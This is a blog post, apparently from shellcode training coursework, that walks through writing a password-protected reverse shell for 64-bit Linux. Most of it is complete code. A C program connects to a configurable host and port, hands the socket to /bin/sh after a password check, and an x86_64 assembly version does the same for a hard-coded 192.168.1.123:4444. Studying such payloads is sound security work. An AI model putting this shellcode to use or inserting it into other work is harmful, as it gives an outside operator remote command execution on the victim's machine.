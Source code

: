 ```yaml
---
title: "Implementing a password protected reverse shell in shellcode"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately connect back to a remote machine and spawn a shell as well as requiring a password before any commands can be run inside the shell.

This blog post will follow a similar process to the bind shell process, but should be a little shorter seeing as a reverse shell is a little easier to implement in C and Assembly.

We will step through the process again following the same framework:

<ol>
  <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.</li>
  <li>Secondly, the C code needs to be ported to Linux x86_64 Assembly code.</li>
  <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<sys/types.h>
#include<netinet/in.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>


int main()
{
        struct sockaddr_in server;
        int sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as needed
        char *arguments[] = { "/bin/sh", 0, "4444", "127.0.0.1", "YOLOOOOOOO" };
        char buf[16];

        sock = socket(AF_INET, SOCK_STREAM, 0);
      
        server.sin_family = AF_INET;
        server.sin_port = htons(atoi(arguments[2]));
        server.sin_addr.s_addr = inet_addr(arguments[3]);
        bzero(&server.sin_zero, 8);

        connect(sock, (struct sockaddr *)&server, sockaddr_len);

        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);

        read(sock, buf, 16);
        buf[strcspn(buf, "\n")] = 0;
        if (strcmp(arguments[4], buf) == 0)
        {        
              execve(arguments[0], &arguments[0], NULL);
        }
       
}
```

```nasm
global _start

section .text

_start:

        ; create socket
        mov rax, 41
        mov rdi, 2
        mov rsi, 1
        mov rdx, 0
        syscall

        mov rdi, rax

        xor rax, rax

        push rax
        ; change IP as reverse hex as needed
        mov dword [rsp-4], 0x7b01a8c0
        mov word [rsp-6], 0x5c11
        mov word [rsp-8], 0x2
        sub rsp, 8


        ;connect(sock, (struct sockaddr *)&server, sockaddr_len)
        
        mov rax, 42
        mov rsi, rsp
        mov rdx, 16
        syscall

        mov rax, 33
        mov rsi, 0
        syscall

        mov rax, 33
        mov rsi, 1
        syscall

        mov rax, 33
        mov rsi, 2
        syscall

        xor rax, rax

        push r10
        mov rsi, rsp
        
        xor rdx, rdx
        mov rdx, 8
        syscall

        xor rax, rax
        ; password '8bytesss'
        mov rax, 0x7373736574796238
        mov rdi, rsi
        scasq
        jne exit

        xor rax, rax
        push rax

        mov rbx, 0x68732f2f6e69622f
        push rbx

        mov rdi, rsp

        push rax

        mov rdx, rsp

        push rdi
        mov rsi, rsp
        mov rax, 59
        syscall

exit:
        xor rax, rax
        mov rax, 60
        syscall
```
<h2></h2>

